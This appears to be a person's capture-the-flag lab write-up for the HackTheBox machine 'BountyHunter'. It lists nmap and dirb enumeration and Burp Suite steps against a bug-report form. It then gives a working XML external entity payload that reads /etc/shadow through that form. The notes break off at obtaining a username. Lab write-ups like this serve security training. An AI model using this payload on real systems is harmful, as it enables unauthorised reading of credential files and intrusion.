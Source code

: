 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I 

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH 
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1: 
+ dirb ${IP} || dirb ${IP}/ -X .php
  + /assets/
  + /log_submit.php
  + /resources/
  
### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
  + Data needs to be *URL then Base64 decoded*
  + Find template https://github.com/payloadbox
  + adjust titles to mimic db.php titles
  + payload needs to be *Base64 then url encoded*
+ Send payload via Burp/Repeater.

#### db.php payload:
<?xml version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>

#### payload file disclosure:
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>test</cwe>
    		<cvss>test</cvss>
    		<reward>test</reward>
    		</bugreport>

Obtain Username: ${UN}
